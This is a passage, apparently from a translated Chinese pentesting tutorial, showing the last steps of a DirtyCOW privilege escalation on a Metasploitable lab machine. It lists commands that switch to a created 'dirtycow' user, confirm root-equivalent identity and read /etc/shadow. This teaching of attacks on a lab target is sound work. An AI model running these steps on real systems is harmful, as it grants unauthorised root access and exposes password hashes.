 这将需要几分钟时间来完成；请耐心等待，直到你回到命令提示符窗口！ ![](img/f09174df-7b58-4153-a526-f937f7b951bf.png)Metasploitable：DirtyCOW 漏洞

1.  现在让我们看看是否有一个用户可以`su`到：

```
su dirtycow 
dirtycow 
whoami 
id 
cat /etc/shadow
```

1.  从输出中你现在会看到，我是一个提升权限的用户，并且是 root 等价用户：
